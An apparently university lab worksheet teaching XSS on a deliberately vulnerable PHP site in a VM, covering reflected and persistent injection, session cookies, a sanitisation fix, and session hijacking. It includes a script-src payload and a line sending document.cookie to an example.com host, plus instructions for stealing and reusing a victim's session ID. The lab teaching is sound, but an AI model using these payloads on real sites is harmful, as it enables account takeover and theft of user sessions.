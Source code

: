 Worksheet
========================================================================

Preparation
___________

Start the Virtual Machine and use your favourite browser to navigate to the
web application (The Terrible Website,
port 12342), Usermin (port 12323) and Request Bin (port 12344).

After logging in, Usermin will show you the contents of ``/home/student``, from
which you can access the web application's code in the ``webapp`` folder.

The web application (The Terrible Website) is a sample website designed to demonstrate
some security vulnerabilities, including those explained in this worksheet.

The first step is to familiarise with the website. You can create an
account using the "Register" link at the top of the page. The website
allows users to login, view articles and write comments.


Unsanitised output
_____________________

Try to use the search functionality of the website. This page simply
searches the database for articles by their title.

In this website, the search input is not appropriately sanitised.
Notice that the search functionality of the website returns a webpage with
a heading which counts the number of results and prints back the search
terms used (i.e. searching for ``Alan Turing`` will print
``1 results for "Alan Turing"``).

If you insert some HTML code into the input bar, you can notice that
this is not correctly filtered by the application.
For example, if you type ``<u>Hello</u>`` into the search bar and press enter,
you can see that the webpage will display the text underlined, instead of
displaying the string as it has been typed. This is
because the HTML ``<u>...</u>`` tag is responsible for underlining text,
and the unfiltered text is interpreted as HTML code by the browser.

**Exploit this functionality to display an arbitrary image from the internet**
**in the search page.**

Hint:
    You can find a list of HTML tags at http://www.w3schools.com/tags/.

This type of attack is known as *non-persistent* or *reflected*,
because the result is shown back to the user but it is
not saved in the website's database, and it needs the attacker to share
the link of the search results page and it only affects users who
click on the malicious link.


Fix the search
______________

The webpage which is responsible for the search is available for you to
edit from Usermin in ``/home/student/webapp/pages/search.php``. You can
make changes to the file, save it and reload the page of the website
to check the result.

If things go wrong and you want to restore the initial version of the file,
simply delete your VM and restart it from a fresh copy.

**TODO: Maybe provide something easier to reset the code?**

PHP files (having ``.php`` extension) contain HTML code and they may contain some PHP code
between ``<?php`` and ``?>`` tags. PHP code is processed by the server when
a webpage is requested, its output is mixed with the HTML page and only
HTML is returned to the web browser. Variable names start with a dollar sign (``$``)
and all instructions must terminate with a semicolon (``;``). You can learn more about the language at
http://php.net/manual/en/langref.php.

The ``prepareSearchTerm`` function is used to prepare the string before it
is used to search the articles of the website. Currently, it only capitalises
the first letter of each word in the string
(i.e. ``this is a search query`` -> ``This Is A Search Query``).

**Change the** ``prepareSearchTerm`` **function to fix the vulnerability.**
**Then test that the string you prepared in the previous exercise**
**is now innocuous and can't be used to display an image.**

Hint:
    There are a couple of ways you can implement the fix to prevent
    HTML markup from being injected. Symbols, if are not
    intended to be interpreted as code, should be encoded in their
    hexadecimal HTML notation, e.g. ``£`` can be written
    as ``&#163;`` (or its memorable equivalent ``&pound;``).

    Think about which special characters play a role in HTML injection
    attacks.


Injecting Javascript Code
_________________________

Injecting simple formatting in webpages may temporarily
disrupt the layout of the webpage but is not generally a security risk.

Images can be a risk for privacy in some cases, for example if the
image is served by a webserver which is under the control of the attacker,
this can be used to retrieve information about the end user, such as
IP address, the browser used, and whether the user has opened the webpage
or not (this technique is known as `web beacon <https://en.wikipedia.org/wiki/Web_beacon>`_).

Probably, the most dangerous HTML code which can be injected into webpages
is Javascript scripts. These are automatically executed by the web browser
as soon as they are encountered, and permit a broad range of operations, such as
the manipulation of the DOM (structure of the page), reading cookies and
sending HTTP requests.

There are two ways to insert Javascript in a HTML file:

1. Using a ``<script>...</script>`` tag, including the Javascript code directly
   in between the tags.

2. Hosting the script on different web server, and injecting it using:
   ``<script src="http://example.com/malicious-code.js"></script>``,
   where ``malicious-code.js`` is a file containing Javascript code. This
   is known **XSS**, or Cross-site scripting.

The comments section of the website is vulnerable to XSS but this time
the content of the comments is persisted to the database, therefore this
application is vulnerable to *permanent XSS attacks*, which can be vary
dangerous.

**Try typing the following code in the comment box of an article, and observe**
**its effect on you and other users who visit the same page:**

.. code:: javascript

  <script> alert("Hello world"); </script>



How Sessions Work
-----------------

In order to understand identity theft attacks, it is important to
understand how sessions work in web applications. If you already know
about sessions and cookies, feel free to skip this section.

HTTP (*Hypertext Transfer Protocol*) is the protocol used for the transmission
of webpages and is the foundation of websites and web applications. Its
development began in 1989 before modern web applications, and it was originally
designed to serve as a protocol for simple informative webpages. It is probably
for this reason that HTTP is a *stateless* protocol, meaning that its
specification has no concept of a *session* between a client
and a server.

This may at first seem counterintuitive to readers,
because modern websites and web applications still use HTTP and
certainly do support authentication and other
systems that rely on the concept of a *session*.

**Cookies and sessions**

In order to keep track of the
current session information, most web applications use techniques such as
session cookies. Cookies are small strings which contain information that is
exchanged back and forth at every request between a client and a server.

At the first visit, the server assigns a random ID to the client, called the
session ID. This is communicated to the client. The server will store locally
any information regarding the current state of the application (the *session*
*data*), such as the authentication status of the user. The client, on the
other hand, will communicate its session ID to the server at every request,
so to receive webpages personalised on the basis of the logged in user.

The security of this method relies on the fact that the session information is
only accessible by the server, and that the session IDs are extremely
hard to guess.

You can try for yourself: most browsers allow users to view the list of cookies.
**Try visiting a familiar website and logging in**. At this point, you will probably
be able to see some cookie with a name such as "SESSION_ID", "SESSID" or "UID",
which will contain a long random string. Try deleting this cookie and refreshing
the webpage and you will probably be logged out of the website.

Hint:
    If you're using Google Chrome, you should be able to see a list of cookies
    by clicking on the icon in the Omnibar.

    If you're using Firefox, you should be able to see a list of cookies by
    clicking on the information sign icon in the address bar, "More Information",
    "Security" tab.

Ethics and regulations:
    At the time of writing, in the UK websites are required to ask for the
    user's explicit consent
    before storing some cookies on the user's browser
    and also need to explain what cookies are and how exactly they are used
    in the website. This also applies to similar technologies (e.g. HTML5
    session storage), but simple session cookies are generally exempt.
    Learn more at
    https://ico.org.uk/for-organisations/guide-to-pecr/cookies-and-similar-technologies/.


Capturing HTTP requests
-----------------------

Generally XSS attacks rely on sending the cookies' content to a
third party web server, under the control of the attacker.
For the purpose of this practical, a very simple web application is
running on the VM (port 12344). This web application provides an URL,
which you can find on the right of the home page, which simply captures
any HTTP request made to it, and stores the content of the request.

**Visit the Request Bin application (port 12344), get the capture URL from the box**
**on the right, and visit this URL with your browser. Then refresh the**
**home page of the Request Bin application and notice the effect.**

You should find a new request, of type "GET", made by your browser when
trying to open the page. You should be able to see the data associated
with this request, which includes your IP address, the timestamp,
and your user-agent string.


Using Javascript to steal the session ID
----------------------------------------

Javascript code has the ability to read and write cookies from and to the
browser. The cookies string can be accessed as the variable ``document.cookie``,
which contains all cookies in a key-value format (``key1=value1; key2=value2; ...``).

Most modern web browsers allow you access a Javascript interpreter in the scope
of the current webpage, which can be very useful for prototyping and debugging
your Javascript code.
This can generally be accessed under the "Developer Tools" or "Inspector"
menus of your browser.

Open your favourite website and then this Console. Typing ``document.cookie``
will probably show you a long list of cookies, which are used for statistics,
sessions, and advertisement profiling.

Intuitively, being able to read the session ID of another user and using it
on your computer, is normally enough to fool the website into believing you
are in fact the other user: this will cause the website to log you in as the other
user.

Now return to the web application (The Terrible Website).

Javascript code can be used to make HTTP requests in background. These are
known as AJAX requests. These request can carry arbitrary data, including
information about the user collected from the vulnerable website.

For example, you can use
Javascript to send a requesto the Request Bin application,
by writing in the Console:

.. code:: javascript

  jQuery.post("<CAPTURE URL>",
              {a_number: 42, some_text: "Hello World!"});


Where ``<CAPTURE URL>`` is the URL from the Request Bin application which
captures any request made to it.

This method, provided by the jQuery library (included for simplicity),
makes a HTTP POST request to the URL with payload
``a_number=42`` and ``some_text=Hello World!``. You can learn more about the
``jQuery.post`` method at https://api.jquery.com/jquery.post/.

**Write a comment with some Javascript code that**
**will make HTTP request to the Request Bin capture URL, containing the cookie**
**information from the browser of the user.**

Hint:
  Try combining the function presented above with the ``document.cookie``
  variable. Don't forget the ``<script></script>`` tags!

**Now login as a second user (the "victim") and try visiting the article**
**which contains the malicious comment. Verify that the**
**victim unknowingly sent their cookies the Request Bin application,**
**including their session ID.**

**Now log out and use the session ID to impersonate the victim, without**
**using their credentials.**

Hint:
  To change your current session ID, you will need to edit your own cookies.
  Unfortunately, most modern browsers' developer tools allow you only
  to view and delete cookies, but not to edit them.

  To change the ``PHPSESSID`` cookie to the value ``NEW_VALUE``, you can
  open the website, then the browser's Console, and paste the following
  code:

  .. code:: javascript

    document.cookie = "PHPSESSID=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
    document.cookie = "PHPSESSID=NEW_VALUE";

  Finally, remember to refresh the webpage to see any changes.

  Please note that the first line is needed to discard the old value
  of the cookie, by setting its expiration date to the past. The second
  line then sets the cookie value to ``NEW_VALUE``.  You can
  read more about ``document.cookie`` at
  https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.

  Alternatively you can use a browser extension, such as
  Firebug for Firefox, which is available
  at https://getfirebug.com/downloads/. You can then activate the
  Firebug panel, open the Cookies tab and edit your cookies
  via the UI.

This type of attack is known as *persistent*,
because the malicious code is stored in the website by the attacker.


Note on HTTP access control: CORS (Cross-Origin Resource Sharing)
-----------------------------------------------------------------

For security reasons modern browsers restrict cross-origin HTTP requests
initiated from within scripts. This includes HTTP POST requests made using
jQuery's ``.post`` method. In fact these requests are generally subject to the
same-origin policy, meaning that the scripts can only make HTTP requests to
their own domain, unless explicitly specified by the application's web server.

For the purpose of this practical, CORS has been set to enforce a permissive
policy for requests made from scripts within the web application. This is not
realistic and is unlikely to happen on real websites. We believe this is justified
by the fact that CORS is not an excuse to avoid doing proper input sanitisation,
for the following reasons:

(a) CORS relies on the browser being modern and up to date. Older browsers,
    especially mobile phones' browsers, do not implement correctly, or fully,
    CORS policies.

(b) Other methods that circumvent CORS restrictions exist. For example, a Javascript
    script could still make a HTTP GET request by redirecting the user,
    e.g.:

      .. code:: javascript

        // Redirect the user to example.com/?cookies=PHPSESSID=123.....9;
        window.location = "http://example.com/?cookies=" + document.cookie;

You can read more about HTTP access control (CORS) at
https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS.
